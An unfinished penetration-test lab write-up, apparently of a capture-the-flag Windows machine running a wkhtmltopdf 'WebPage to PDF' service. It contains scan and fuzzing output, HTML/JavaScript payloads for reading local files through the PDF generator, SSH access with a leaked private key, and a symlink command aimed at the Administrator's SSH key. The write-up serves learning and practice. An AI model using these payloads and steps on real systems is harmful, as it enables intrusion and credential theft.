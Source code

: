 #InProgress 
```IP
192.168.162.177
```
## Nmap
```
PORT   STATE SERVICE REASON          VERSION
22/tcp open  ssh     syn-ack ttl 125 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:40:e2:ef:21:ea:c1:77:b6:14:a3:f7:04:59:45:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcjA6Du6Xclk6bj2jRxFnRpmqAaGYZBeR4bZ+ZlpEc3HQxgUVtevQcEwV/GkD1uHnkavTJLsV8xf0SxHOxvjlCTHVxCApToP7QQkXH+wNw9kMz8xhzI0fVxvTTWGcOskfxgTfw7AcvYsXmKbJnUwZRaNdr5GtdJqO9jW1WprImYTY7ZSxzfxomZiQj87g21nbY/QSPfeJXbmacl9U52B9KB6StxVCGrS0hL3PIfDbQvGYiDqfH1/0UrE8NsdC3cmf2yMHwrpUXiHv6aMwpOP4WHhsBZgqotqaj5clEq051IylC5RcRGVmPqG5m7Sb1F91L43RLVfp5gSDX/K097bOL
|   256 f8:fb:e3:c6:16:3a:e2:62:d0:e2:ae:d4:f2:9e:6f:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEsNFRln5wL+8mm70Jhj1dYrLiOfcB1bg1sJRbZu84TZhAuaZuab6L3L77D1Iz/o2guD9TyvRvcU3nRIxdvIUxw=
|   256 94:5e:97:ad:f9:0f:81:b6:6b:3b:bd:98:43:c0:0d:6a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPGpJEAiGfo+odXRYF/qTK3JeKYerp7y7Qn6wVd4pByr
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: WebPage to PDF

```

## Nmap UDP


# Enumeration

## HTTP
Fuzz
```
.htaccess               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
.htpasswd               [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 38ms]
Logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 28ms]
aux                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
cgi-bin/                [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 35ms]
com2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
com1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
com4                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 32ms]
com3                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 33ms]
con                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 27ms]
licenses                [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 33ms]
logs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 31ms]
lpt1                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
lpt2                    [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
nul                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 29ms]
pdfs                    [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 30ms]
phpmyadmin              [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 38ms]
prn                     [Status: 403, Size: 304, Words: 22, Lines: 10, Duration: 30ms]
server-status           [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
server-info             [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 31ms]
webalizer               [Status: 403, Size: 423, Words: 37, Lines: 12, Duration: 46ms]
```
In pdfs we find a private key
https://medium.com/@parab500/part-1-uncovering-the-vulnerability-how-attackers-can-exploit-ssrf-via-pdf-generation-bf91a42b8e67
https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536
Analyzing pdfs 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022104848.png?raw=true)
we confirm the version of wkhtmltopdf is 0.12.3
No parece posible extraer información creando pdfs a partir de html malicioso
```
<!DOCTYPE html>
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

<body>

<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///Windows/System32/Drivers/etc/hosts");
x.send();
</script>

</body></html>
```
hacktricks payload working
```
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022112313.png?raw=true)

in fact with the user name p4yl0ad in the webpage and the id_rsa leaked we can ssh into the machine
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241022115219.png?raw=true)

# PrivEsc

## Manual
https://github.com/googleprojectzero/symboliclink-testing-tools
Por alguna razón no funciona lo que a todo dios le funciona
```
.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
```
## Automated

### Peass
C:\Users\p4yl0ad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

### Mimikatz

